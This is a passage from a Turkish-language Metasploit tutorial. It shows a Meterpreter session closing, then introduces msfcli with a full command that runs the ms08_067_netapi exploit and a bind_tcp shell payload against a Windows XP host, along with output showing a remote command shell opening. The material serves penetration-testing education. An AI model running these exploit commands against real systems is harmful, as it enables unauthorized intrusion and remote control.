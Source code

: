 Gördüğünüz gibi, Meterpreter (meta-interpreter) oturumu ile bitiriyoruz. Metasploit'in eşsiz payload'ı. Command shell yaptığını hatda daha fazlasını yapabilmektedir.

Şimdilik oturumu kapatıyoruz

```ShellSession
meterpreter > exit
[*] Shutting down Meterpreter...
[*] Meterpreter session 1 closed.  Reason: User exit
msf  exploit(ms08_067_netapi) >
```


##### MSFCLI

Metasploit Framework'u ile çalışmak için diğer bir güçlü komut istemci aracı ise __Msfcli__. Maalesef, _msfcli_ sürümü eski olduğundan ve sonrasında geliştirilmeyeceği hakkında bir bilgi mesajı almaktayız. Tavsiye edilen onun yerine _msfconsole -r_ veya _msfconsole -x_ kullanmak.

![msfcli](../resim/metasploit/msfcli.png)

msfcli kullanılırken, değişkenleri atamak için '=' işareti kullanılmalıdır. 

```ShellSession
root@bt4:/pentest/exploits/framework3# ./msfcli windows/smb/ms08_067_netapi 
RHOST=192.168.1.115 PAYLOAD=windows/shell/bind_tcp E
[*] Please wait while we load the module tree...
[*] Started bind handler
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP Service Pack 2 - lang:English
[*] Selected Target: Windows XP SP2 English (NX)
[*] Triggering the vulnerability...
[*] Sending stage (474 bytes)
[*] Command shell session 1 opened (192.168.1.101:54659 -> 192.168.1.115:4444)
```
